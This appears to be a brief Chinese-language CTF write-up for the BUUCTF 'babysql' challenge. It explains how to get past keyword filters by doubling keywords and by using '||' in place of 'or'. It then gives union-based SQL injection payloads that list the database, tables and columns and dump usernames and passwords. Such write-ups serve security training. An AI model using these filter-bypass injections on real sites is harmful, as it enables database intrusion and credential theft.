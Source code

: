 ```python
databse_name = get_database_name()
print(databse_name)
```

##### buuctf-babysql

万能密码登录过滤啦or，可以用||替代

 select,union,from过滤绕过：使用大小写和复写单词，构造sql注入语句如下：

将所需要的查询语句包裹起来

```
2' UUNIONNION SSELECTELECT 1,database(),3 --+ #geek 数据库
```

```
2' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek' %23
#b4bsql,geekuser 表
```

```
2' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema='geek' anandd table_name='b4bsql' %23

#'id,username,password'
```

```
2' ununionion seselectlect 1,2,group_concat(username,passwoorrd) frfromom geek.b4bsql %23
```

